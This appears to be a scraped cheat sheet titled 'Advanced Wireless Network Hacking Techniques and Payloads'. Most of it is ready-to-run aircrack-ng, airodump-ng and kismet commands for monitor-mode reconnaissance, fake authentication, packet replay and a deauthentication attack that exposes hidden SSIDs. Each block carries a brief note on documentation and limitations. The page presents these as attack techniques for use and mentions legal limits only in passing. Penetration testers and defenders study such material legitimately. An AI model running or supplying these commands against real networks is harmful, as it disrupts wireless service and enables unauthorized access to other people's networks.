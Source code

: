 		- https://www.youtube.com/watch?v=8dhGWCfrBc
--------------------------------------------------------------------------------------------------------------

# Advanced Wireless Network Hacking Techniques and Payloads

## Wi-Fi Network Discovery and Reconnaissance

### Passive Wireless Reconnaissance
```bash
# Monitor Mode Setup
airmon-ng check kill                                     # Kill interfering processes
airmon-ng start wlan0                                    # Enable monitor mode
iwconfig wlan0mon mode monitor                          # Verify monitor mode

# Comprehensive Network Discovery
airodump-ng wlan0mon                                     # Scan all channels
airodump-ng -c 6 wlan0mon                               # Scan specific channel
airodump-ng --manufacturer wlan0mon                     # Show device manufacturers
airodump-ng -w scan_results wlan0mon                    # Save results to file

# Kismet Wireless Detection
kismet -c wlan0mon                                       # Advanced wireless scanner
kismet_client --server localhost:2501                   # Connect to Kismet server

# WiFi Analyzer Tools
wavemon                                                  # Console-based WiFi monitor
horst -i wlan0mon                                       # Lightweight WiFi analyzer
```

**Documentation**: Passive wireless network discovery for identifying targets and gathering intelligence.
**Limitations**: Requires compatible wireless hardware; hidden networks may not be detected; limited range.

### Active Wireless Reconnaissance
```bash
# Active Probing
aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon  # Fake authentication
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b AA:BB:CC:DD:EE:FF -h 11:22:33:44:55:66 wlan0mon  # Interactive packet replay

# Client Probing
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon     # Monitor specific AP
airodump-ng -c 6 -w clients --bssid AA:BB:CC:DD:EE:FF wlan0mon  # Capture client traffic

# Hidden SSID Discovery
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon         # Deauth attack to reveal hidden SSID
```

**Documentation**: Active techniques for gathering detailed wireless network information and forcing responses.
**Limitations**: Active scanning is easily detected; may violate local regulations; can disrupt network operations.
